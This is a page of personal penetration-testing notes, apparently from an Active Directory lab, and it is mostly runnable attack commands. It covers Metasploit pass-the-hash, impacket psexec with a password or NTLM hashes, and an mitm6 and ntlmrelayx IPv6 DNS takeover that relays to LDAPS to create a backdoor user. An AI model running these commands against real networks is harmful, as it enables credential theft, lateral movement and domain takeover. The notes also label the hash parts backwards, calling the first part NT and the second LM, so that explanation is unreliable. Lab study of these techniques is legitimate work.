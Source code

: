 >##### NTLM attack (using hash)
* ```bash
unset SMBDomain
``` 
```bash
set smbuser administrator
``` 
```bash
set smbpass <hash>
```
* `Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::`

>The hash has two parts: NT and LM. We need both → `aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f`
First part before `:` it NT and after is LM.

>*
```bash
run
```

---

>#### psexec.py
##### Using Password
```bash
impackets-psexec MARVEL/fcastle:"Password12345!"@192.168.138.137
```

>OR, maybe if the password has a lot of characters that needs to be escaped do:
```bash
impackets-psexec MARVEL/fcastle:@<IP>
```
Then you can paste in the password.

>##### Using hash
```bash
impackets-psexec administrator@<IP> -hashes <hash>
```

>If psexec does not work for some case, there are **wmiexec** and **smbexec** which basically works the same. It depends on the settings on the target machine.

---

>### IPv6 Attacks
##### Overview
* This is a MitM attack where we as an attacker claims to be a DNS. Basically this can also be called a DNS takeover attack. Usually, a network does not use IPv6, still it is turned on. Network are generally utilizing IPv4. And, there no DNS for IPv6. As soon as we spoof the DNS server, all the IPv6 traffic is sent to us (spoofed IPv6 DNS server). With the authentication traffic (NTML) being sent though our DNS server, we can create a user (backdoor). This all is automated by a tool: **mitm6**.

---

>##### Exploitation
1. ```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```
SMB to LDAP cannot be relayed, for that `-smb2support` flag can be used.
2. ```bash
mitm6 -d marvel.local
```
3. Restart THEPUNISHER PC, we can see all the traffic sent during re-activation of a computer to the domain. All the policies and the users.
4. Login as Administrator, now **mitm6** will use all the access control captured from the DNS traffic and create us a new user (backdoor).
